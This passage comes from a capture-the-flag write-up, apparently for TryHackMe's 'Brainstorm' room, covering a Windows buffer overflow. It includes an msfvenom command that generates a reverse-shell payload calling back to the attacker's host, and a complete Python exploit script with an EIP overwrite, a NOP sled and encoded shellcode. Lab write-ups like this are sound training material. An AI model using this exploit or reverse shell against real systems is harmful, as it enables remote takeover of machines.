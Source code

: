 
#### Generating shellcode

Since we are dealing with a windows executable, generate a shellcode specific to that using msfvenom

![image](/posts/2021-03-28_tryhackme-brainstorm/images/25.png#layoutTextWidth)
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.103 LPORT=4444 -e x86/shikata_ga_nai -f py -b &#34;\x00&#34;`

Copy the shellcode into our program. Our final script looks as follows
`import socket``import struct``IP = &#34;192.168.0.104&#34;``PORT = 9999``s = socket.socket()``s.connect((IP,PORT))``username = b&#34;SAUDI&#34;``new_eip = struct.pack(&#34;<;I&#34;,0x62501503)``badchars = b&#34;&#34;.join([struct.pack(&#34;<;B&#34;,x)for x in range(1,256)])``buf =  b&#34;&#34;``buf += b&#34;\xbd\xaf\x88\xc7\xb6\xdb\xd5\xd9\x74\x24\xf4\x5e\x2b&#34;``buf += b&#34;\xc9\xb1\x52\x31\x6e\x12\x83\xc6\x04\x03\xc1\x86\x25&#34;``buf += b&#34;\x43\xe1\x7f\x2b\xac\x19\x80\x4c\x24\xfc\xb1\x4c\x52&#34;``buf += b&#34;\x75\xe1\x7c\x10\xdb\x0e\xf6\x74\xcf\x85\x7a\x51\xe0&#34;``buf += b&#34;\x2e\x30\x87\xcf\xaf\x69\xfb\x4e\x2c\x70\x28\xb0\x0d&#34;``buf += b&#34;\xbb\x3d\xb1\x4a\xa6\xcc\xe3\x03\xac\x63\x13\x27\xf8&#34;``buf += b&#34;\xbf\x98\x7b\xec\xc7\x7d\xcb\x0f\xe9\xd0\x47\x56\x29&#34;``buf += b&#34;\xd3\x84\xe2\x60\xcb\xc9\xcf\x3b\x60\x39\xbb\xbd\xa0&#34;``buf += b&#34;\x73\x44\x11\x8d\xbb\xb7\x6b\xca\x7c\x28\x1e\x22\x7f&#34;``buf += b&#34;\xd5\x19\xf1\xfd\x01\xaf\xe1\xa6\xc2\x17\xcd\x57\x06&#34;``buf += b&#34;\xc1\x86\x54\xe3\x85\xc0\x78\xf2\x4a\x7b\x84\x7f\x6d&#34;``buf += b&#34;\xab\x0c\x3b\x4a\x6f\x54\x9f\xf3\x36\x30\x4e\x0b\x28&#34;``buf += b&#34;\x9b\x2f\xa9\x23\x36\x3b\xc0\x6e\x5f\x88\xe9\x90\x9f&#34;``buf += b&#34;\x86\x7a\xe3\xad\x09\xd1\x6b\x9e\xc2\xff\x6c\xe1\xf8&#34;``buf += b&#34;\xb8\xe2\x1c\x03\xb9\x2b\xdb\x57\xe9\x43\xca\xd7\x62&#34;``buf += b&#34;\x93\xf3\x0d\x24\xc3\x5b\xfe\x85\xb3\x1b\xae\x6d\xd9&#34;``buf += b&#34;\x93\x91\x8e\xe2\x79\xba\x25\x19\xea\x05\x11\x21\x8d&#34;``buf += b&#34;\xed\x60\x21\x40\xb2\xed\xc7\x08\x5a\xb8\x50\xa5\xc3&#34;``buf += b&#34;\xe1\x2a\x54\x0b\x3c\x57\x56\x87\xb3\xa8\x19\x60\xb9&#34;``buf += b&#34;\xba\xce\x80\xf4\xe0\x59\x9e\x22\x8c\x06\x0d\xa9\x4c&#34;``buf += b&#34;\x40\x2e\x66\x1b\x05\x80\x7f\xc9\xbb\xbb\x29\xef\x41&#34;``buf += b&#34;\x5d\x11\xab\x9d\x9e\x9c\x32\x53\x9a\xba\x24\xad\x23&#34;``buf += b&#34;\x87\x10\x61\x72\x51\xce\xc7\x2c\x13\xb8\x91\x83\xfd&#34;``buf += b&#34;\x2c\x67\xe8\x3d\x2a\x68\x25\xc8\xd2\xd9\x90\x8d\xed&#34;``buf += b&#34;\xd6\x74\x1a\x96\x0a\xe5\xe5\x4d\x8f\x15\xac\xcf\xa6&#34;``buf += b&#34;\xbd\x69\x9a\xfa\xa3\x89\x71\x38\xda\x09\x73\xc1\x19&#34;``buf += b&#34;\x11\xf6\xc4\x66\x95\xeb\xb4\xf7\x70\x0b\x6a\xf7\x50&#34;``shellcode = buf``NOP_sled = &#34;\x90&#34; * 15``s.send(username)``s.recv(1024)``total_length = 4088``offset = 2012``buffer = [``b&#34;A&#34; * offset,``new_eip,``NOP_sled,``shellcode,``b&#34;C&#34; *(total_length - offset - len(new_eip) - len(shellcode))``]``buffer = b&#34;&#34;.join(buffer)``s.send(buffer)`
